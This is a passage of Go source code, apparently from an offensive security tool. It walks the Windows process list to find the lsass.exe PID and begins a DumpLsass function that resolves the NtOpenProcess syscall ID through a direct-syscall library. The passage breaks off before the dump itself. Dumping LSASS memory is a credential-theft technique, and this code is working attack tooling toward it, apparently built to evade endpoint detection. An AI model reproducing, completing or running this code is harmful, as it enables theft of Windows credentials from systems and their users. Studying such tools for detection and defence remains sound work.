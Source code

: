 ```go
    if e.ExeFile[end] == 0 {
      break
    }
    end++
  }

  return WindowsProcess{
    ProcessID:       int(e.ProcessID),
    ParentProcessID: int(e.ParentProcessID),
    Exe:             syscall.UTF16ToString(e.ExeFile[:end]),
  }
}

func FindLsassPid() (int, error) {
  const TH32CS_SNAPPROCESS = 0x00000002

  handle, err := windows.CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)
  if err != nil {
    return 0, err
  }
  defer windows.CloseHandle(handle)

  var entry windows.ProcessEntry32
  entry.Size = uint32(unsafe.Sizeof(entry))

  err = windows.Process32First(handle, &entry)
  if err != nil {
    return 0, err
  }

  results := make([]WindowsProcess, 0, 50)
  for {
    results = append(results, newWindowsProcess(&entry))

    err = windows.Process32Next(handle, &entry)
    if err != nil {
      // Check if there aren't more processes
      if err == syscall.ERROR_NO_MORE_FILES {
        break
      }

      return 0, err
    }
  }

  // Iterate over all processes
  for _, proc := range results {
    // Check if process name is lsass.exe
    if proc.Exe == "lsass.exe" {
      return proc.ProcessID, nil // Return PID
    }
  }

  return 0, errors.New("lsass.exe process not found!")
}

func DumpLsass(pid int, output string) (error) {
  // Get syscall ID
  NtOpenProcess, err := hooka.GetSysId("NtOpenProcess")
  if err != nil { // Handle error
    return err
  }

```